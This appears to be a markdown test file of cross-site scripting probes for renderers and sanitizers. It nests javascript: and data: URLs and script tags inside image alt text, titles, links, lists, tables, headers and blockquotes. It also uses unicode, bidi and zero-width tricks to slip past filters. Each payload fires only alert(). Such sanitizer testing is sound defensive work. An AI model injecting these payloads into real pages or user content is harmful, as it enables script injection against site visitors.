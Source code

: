 # Markdown Nesting and Attribute Exploitation

## Alt attribute with markdown injection
![<script>alert('alt-xss')</script>](https://safe.com/image.jpg)
![**bold** _italic_ [link](javascript:alert('nested'))` code`](https://safe.com/image.jpg)
![![nested-image](javascript:alert('alt-nested')))](https://safe.com/image.jpg)

## Alt attribute with HTML entity injection  
![&lt;script&gt;alert('alt-entity')&lt;/script&gt;](https://safe.com/image.jpg)
![&#60;script&#62;alert('alt-decimal')&#60;/script&#62;](https://safe.com/image.jpg)
![&#x3C;script&#x3E;alert('alt-hex')&#x3C;/script&#x3E;](https://safe.com/image.jpg)

## Alt attribute with Unicode payload
![𝒿𝒶𝓋𝒶𝓈𝒸𝓇𝒾𝓅𝓉:𝒶𝓁𝑒𝓇𝓉('unicode-alt')](https://safe.com/image.jpg)
![javascript\u003Aalert('unicode-colon-alt')](https://safe.com/image.jpg)

## Title attribute exploitation with nested markdown
![test](https://safe.com/image.jpg "javascript:alert('title-js')")
![test](https://safe.com/image.jpg "Title with [link](javascript:alert('title-link'))")
![test](https://safe.com/image.jpg "Title with **bold [nested](javascript:alert('title-nested'))**")

## Title attribute with line break confusion
![test](https://safe.com/image.jpg "Title with
javascript:alert('title-newline')")

![test](https://safe.com/image.jpg "Title with \n javascript:alert('title-backslash-n')")

## Title attribute with quote escaping exploitation
![test](https://safe.com/image.jpg "Title with \" javascript:alert('title-quote')")
![test](https://safe.com/image.jpg 'Title with \' javascript:alert("title-single-quote")')
![test](https://safe.com/image.jpg "Title ending without quote javascript:alert('title-unclosed'))

## Mixed nesting with emphasis and images
*Emphasized text with ![dangerous](javascript:alert('emphasis-nested'))*
**Strong text with ![dangerous](javascript:alert('strong-nested'))**
`Code with ![dangerous](javascript:alert('code-nested'))`

## Links containing images with dangerous URLs
[Link text ![dangerous-img](javascript:alert('link-img-nested'))](https://safe.com/link)
[Text with ![img](data:text/html,<script>alert('link-data-uri')</script>)](https://safe.com/link)

## Images inside link text with state confusion
[![Link img](javascript:alert('img-as-link-text'))](https://safe.com/link)
[![![nested](javascript:alert('double-nested')))](https://safe.com/link)

## List items with image injection
1. List item with ![dangerous](javascript:alert('list-img'))
   * Nested list with ![dangerous](javascript:alert('nested-list-img'))
     - Deep nest ![dangerous](javascript:alert('deep-list-img'))

## Table cells with image exploitation  
| Header 1 | Header 2 |
|----------|----------|
| ![table-img](javascript:alert('table-cell')) | Normal content |
| Normal | ![table-img2](data:text/html,<script>alert('table-data-uri')</script>) |

## Blockquotes with nested image attacks
> Quote with ![dangerous](javascript:alert('blockquote-img'))
> > Nested quote with ![dangerous](javascript:alert('nested-blockquote-img'))
> > > Deep quote ![dangerous](javascript:alert('deep-quote-img'))

## Code block boundary confusion with images
```
This should be code
```
![dangerous](javascript:alert('after-code-block'))

```markdown
![dangerous](javascript:alert('in-code-block'))
```

## HTML block mixing with markdown images
<div>
HTML block
</div>
![dangerous-after-html](javascript:alert('after-html-block'))

<p>![dangerous-in-html](javascript:alert('html-p-img'))</p>

## Horizontal rule boundary confusion
![before-rule](javascript:alert('before-hr'))

---

![after-rule](javascript:alert('after-hr'))

## Link reference definition with image alt confusion
[link-text ![ref-img](javascript:alert('ref-def-img'))][dangerous-link]

[dangerous-link]: javascript:alert('ref-def-target')

## Footnote-style syntax abuse (if supported)
Here is text with ![footnote-img](javascript:alert('footnote'))[^1]

[^1]: Footnote with ![footnote-def-img](javascript:alert('footnote-def'))

## Nested emphasis with image parsing confusion
***Triple emphasis with ![dangerous](javascript:alert('triple-emphasis'))***
___Triple underscore with ![dangerous](javascript:alert('triple-underscore'))___

## Line break injection in image syntax
![alt-with-
hardbreak](javascript:alert('alt-hardbreak'))

![alt](javascript:alert('url-hardbreak')
"title with hardbreak")

## Image inside headers with markdown injection
# Header 1 ![h1-img](javascript:alert('h1-header'))
## Header 2 ![h2-img](javascript:alert('h2-header'))
### Header 3 ![h3-img](javascript:alert('h3-header'))

## Autolink confusion with images
<![not-autolink](javascript:alert('fake-autolink'))>
<https://safe.com/![img-in-autolink](javascript:alert('autolink-img'))>

## Definition list abuse (if supported)  
Term with ![term-img](javascript:alert('def-term'))
: Definition with ![def-img](javascript:alert('def-definition'))

## Mixed markdown and raw HTML attribute injection
<img src="javascript:alert('raw-html-img')" alt="Raw HTML">
![markdown-img](javascript:alert('after-raw-html'))

## Escape sequence bypass in image syntax
![alt\]text](javascript:alert('escaped-closing-bracket'))
![alt](javascript\:alert('escaped-colon'))
![alt](javascript:alert\('escaped-paren'\))

## Unicode directional override in alt text
![‮tla-txet](javascript:alert('bidi-alt-text'))
![alt with ‮‫‪direction control‬‫‮](javascript:alert('bidi-mixed'))

## Zero-width character boundary attacks in alt
![​zwsp​alt​text​](javascript:alert('zwsp-alt-boundary'))  
![alt‌with‍zw‌chars](javascript:alert('zw-chars-alt'))

## Combining character disruption in alt text
![a̸l̸t̸-̸t̸e̸x̸t̸](javascript:alert('combining-alt'))
![normal-a͏l͏t](javascript:alert('combining-invisible'))

## Parser state confusion with malformed syntax
![unclosed-alt](javascript:alert('unclosed'))
![alt](unclosed-url
![between-images](javascript:alert('between-malformed'))
continued-url)

## Complex nested structure exploitation
*Italic with **bold ![nested](javascript:alert('complex-nested'))** more italic*
[Link with *italic **bold ![deep](javascript:alert('deep-complex'))***](https://safe.com/)

## Image syntax breaking across line continuations
![alt](javascript:\
alert('line-continuation'))

![alt-continued\
text](javascript:alert('alt-line-continuation'))